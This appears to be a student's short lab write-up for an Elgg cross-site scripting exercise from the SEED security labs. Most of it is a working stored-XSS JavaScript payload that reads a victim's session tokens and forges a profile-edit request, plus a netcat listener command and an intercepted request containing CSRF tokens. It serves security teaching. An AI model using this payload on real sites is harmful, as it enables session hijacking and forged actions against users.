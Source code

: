 # XSS

```bash
python -m http.server 8000
```

## Malicious payload

```bash
nc -lvkn 5555
```

## Add friend then intercept request to know ID

example : GET /action/friends/add?friend=59&__elgg_ts=1640265543&__elgg_token=QMGtWpsufBBOmDje9KztjQ HTTP/1.1

## Craft response :

```html
<script type="text/javascript">
    window.onload = function(){
        var userName = "&name=" + elgg.session.user.name;
        var guid = "&guid=" + elgg.session.user.guid;
        var ts = "&__elg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

        var newDescription = "description is new";
        var content = token + ts + guid + userName + "&description=" + newDescription;
        var victimGuid = "59"; // cf guid found previously
        var sendURL = "http://www.seed-server.com/action/profile/edit";

        if(elgg.session.user.guid != victimGuid){
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open("POST",sendURL,true);
            Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            Ajax.send(content)
        }
    }

</script>
```